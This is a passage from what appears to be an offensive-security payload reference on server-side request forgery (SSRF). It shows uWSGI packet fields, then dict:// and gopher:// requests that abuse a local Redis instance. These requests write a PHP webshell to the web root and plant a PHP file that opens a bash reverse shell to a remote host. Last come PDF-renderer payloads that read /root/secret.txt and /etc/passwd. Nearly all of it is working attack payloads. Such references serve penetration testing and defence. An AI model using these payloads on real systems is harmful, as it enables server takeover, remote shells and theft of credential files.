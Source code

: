 | Header    |           |             |
|-----------|-----------|-------------|
| modifier1 | (1 byte)  | 0 (%00)     |
| datasize  | (2 bytes) | 26 (%1A%00) |
| modifier2 | (1 byte)  | 0 (%00)     |

| Variable (UWSGI_FILE) |           |    |            |   |
|-----------------------|-----------|----|------------|---|
| key length            | (2 bytes) | 10 | (%0A%00)   |   |
| key data              | (m bytes) |    | UWSGI_FILE |   |
| value length          | (2 bytes) | 12 | (%0C%00)   |   |
| value data            | (n bytes) |    | /tmp/test.py   |   |
	

## SSRF exploiting Redis

> Redis is a database system that stores everything in RAM

```powershell
# Getting a webshell
url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
url=dict://127.0.0.1:6379/SAVE

# Getting a PHP reverse shell
gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
gopher://127.0.0.1:6379/_save
```

## SSRF exploiting PDF file

![https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Request%20Forgery/Images/SSRF_PDF.png](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Request%20Forgery/Images/SSRF_PDF.png)

Example with [WeasyPrint by @nahamsec](https://www.youtube.com/watch?v=t5fB6OZsR6c&feature=emb_title)

```powershell
<link rel=attachment href="file:///root/secret.txt">
```

Example with PhantomJS 

```js
<script>
    exfil = new XMLHttpRequest();
    exfil.open("GET","file:///etc/passwd");
    exfil.send();
    exfil.onload = function(){document.write(this.responseText);}
    exfil.onerror = function(){document.write('failed!')}
</script>
```

